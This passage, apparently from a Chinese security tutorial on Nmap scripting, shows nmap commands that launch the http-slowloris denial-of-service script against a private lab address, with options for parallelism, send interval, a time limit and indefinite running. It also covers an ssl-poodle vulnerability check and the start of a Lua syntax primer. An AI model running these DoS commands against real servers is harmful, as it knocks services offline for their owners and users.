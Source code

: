 http-slowloris.NSE脚本查看目标是否存在预防slowloris的 DoS攻击 Slowloris是在2009年Web安全专家RSnake提出的一种攻击方法，其原理是以极低的速度向服务器发送HTTP请求。由于Web Server对于并发的连接数都有一定的上限，导致拒绝服务 例如  --max-parallelism这些选项控制用于主机组的探测报文数量  
```
nmap -p 80 --script http-slowloris  --max-parallelism 300 192.168.30.39 
```  
  
这个方法是直接去打目标系统  
#### http-slowloris.NSE脚本扩展http-slowloris.send_interval参数  
  
http-slowloris.send_interval参数可以指定发送http header datas的间隔，默认值为100 --script-args 是用来指定参数的  --max-parallelism这些选项控制用于主机组的探测报文数量 例如  
```
Nmap -p 80 --script http-slowloris --script-args http-slowloris.send_interval=200 --max-parallelism 300   192.168.30.39 
```  
#### http-slowloris.NSE脚本扩展http-slowloris.timelimit参数  
  
攻击时间，默认是30分钟 --script-args 是用来指定参数的  
  
15m就是15分钟  
```
nmap -p 80 --script http-slowloris --script-args http-slowloris.timelimit=15m  192.168.30.39 
```  
#### http-slowloris.NSE脚本扩展http-slowloris.runforever参数  
  
这个参数是对目标系统进行一直DoS攻击 --script-args 是用来指定参数的  
```
Nmap -p 80 --script http-slowloris --script-args http-slowloris.runforever 192.168.30.39 
```  
  
还有一个名为http-slowloris-check.NSE的脚本也是用来发送slowloris的，都是他只会发送2个请求 例如  
```
nmap -p 80 --script http-slowloris-check 192.168.30.39 
```  
### POODLE漏洞扫描ssl-poodle脚本  
  
POODLE漏洞（亦即CVE-2014-3566）最早是由谷歌团队发现的，可以攻击者可以盗取，已经使用了的SSL3.0数据进行解密 需要攻击者完全控制网络的流量，比如ARP欺骗，钓鱼wifi等等 名为ssl-poodle的脚本来检查POODLE漏洞 --version-all相当于--version-intensity  9 扫描强度  
```
nmap -sV --version-all --script ssl-poodle -p 443 192.168.30.39 
```  
# Lua语言基础语法  
  
我们要学习NSE开发我们必须要了解Lua语言下面就简单介绍一下Lua语言的基础语法  
  
输出print("Hello")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b76VA5DEYFBgHEHvll1ia3R0N4Zc1nuI0SpT5je7N0EPZt2J5ibOZ9xevXFRhLnISLWaicq0CHf0NicoLgu5lUCicwg/640?wx_fmt=png&from=appmsg "null")  
## 1.if  
  
Lua认为false和nil为假，true和非nil为真。 和其他语言有点不同 为真才会执行then里面的，如果是假会跳过then里面的  
```
if (真)
then
print("会执行这个")
end
```  
  